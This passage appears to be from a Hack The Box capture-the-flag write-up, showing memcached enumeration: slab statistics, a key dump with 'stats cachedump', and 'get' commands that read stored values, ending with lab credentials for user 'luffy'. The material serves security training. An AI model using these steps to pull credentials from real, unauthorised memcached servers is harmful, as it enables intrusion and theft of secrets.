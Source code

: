 > A slab allocation is used to optimize memory usage and prevent memory fragmentation when information expires from the cache

```shell
stats slabs
STAT 1:chunk_size 96
STAT 1:chunks_per_page 10922
STAT 1:total_pages 1
STAT 1:total_chunks 10922
STAT 1:used_chunks 5
STAT 1:free_chunks 10917
STAT 1:free_chunks_end 0
STAT 1:mem_requested 371
STAT 1:get_hits 0
STAT 1:cmd_set 8355
STAT 1:delete_hits 0
STAT 1:incr_hits 0
STAT 1:decr_hits 0
STAT 1:cas_hits 0
STAT 1:cas_badval 0
STAT 1:touch_hits 0
STAT active_slabs 1
STAT total_malloced 1048576
END
```
Next, we'll use `stat cachedump 1 0` to dump keys,  where `1` is the slab number and `0` denotes to dump all keys.

```shell
stats cachedump 1 0
ITEM link [21 b; 0 s]
ITEM user [5 b; 0 s]
ITEM passwd [9 b; 0 s]
ITEM file [7 b; 0 s]
ITEM account [9 b; 0 s]
END
```
Then, using `get` command followed by key name to get the data inside key:
```shell
get link
VALUE link 0 21
https://hackthebox.eu
END

get user
VALUE user 0 5
luffy
END

get passwd
VALUE passwd 0 9
0n3_p1ec3
END

get file
VALUE file 0 7
nothing
END

get account
VALUE account 0 9
afhj556uo
END
```
Got credentials of user luffy as `luffy:0n3_p1ec3`
